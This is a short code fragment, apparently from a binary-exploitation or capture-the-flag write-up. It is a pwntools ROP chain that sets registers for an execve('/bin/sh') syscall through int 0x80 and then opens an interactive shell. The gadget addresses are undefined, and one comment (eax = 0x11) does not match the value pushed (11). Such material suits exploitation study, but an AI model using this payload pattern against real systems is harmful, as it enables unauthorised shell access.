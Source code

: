 ```python
payload += p32(popeax_ret)		# eax = 0x11(SYS_EXECVE)
payload += p32(11)
payload += p32(popebx_edx_ret)
payload += p32(bss)				# ebx = '/bin/sh'
payload += p32(0)				# edx = 0
payload += p32(popecx_ret)
payload += p32(0)				# ecx = 0
payload += p32(int80)			# int 80
io.sendline(payload)
io.sendline(b'/bin/sh' + b'\x00')
io.interactive()
```
